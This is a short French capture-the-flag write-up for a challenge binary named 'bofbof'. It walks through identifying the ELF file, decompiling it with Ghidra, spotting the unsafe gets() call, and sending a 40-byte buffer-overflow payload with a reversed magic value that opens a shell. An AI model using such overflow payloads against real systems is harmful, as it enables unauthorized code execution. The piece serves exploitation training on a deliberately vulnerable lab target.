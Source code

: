 # BOFBOF

On regarde tout d'abord ce qu'est ce fichier bofbof: 

```bash
$ file bofbof
bofbof: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4449145718cb2fc63346e764a356d85a566a1c25, for GNU/Linux 3.2.0, not stripped
```

On peut donc l'exécuter pour regarder localement comment avoir le flag. 
Les commandes strings et ltrace n'ont rien donné de concluant donc je décide de sortir l'artillerie lourde: Ghidra.

Avec cela, on peut décompiler la fonction main

![](ghidra_main.JPG)

La fonction vuln nous donne un shell et on observe l'utilisation de la fonction très dangereuse gets. On voit venir le buffer overflow. 
En regardant la décompilation, le payload va ressembler à 40 bytes + 0x1122334455667788 (à renverser selon l'endianness)

On teste le payload:
```bash
$ (python2 -c "print('A'*40+'\x88\x77\x66\x55\x44\x33\x22\x11')")|
 ./bofbof
Comment est votre blanquette ?
>>> #
```

ça a l'air de fonctionner, testons directement sur le port ouvert grâce au code solve.py. Cela marche, plus qu'à cat le flag!   

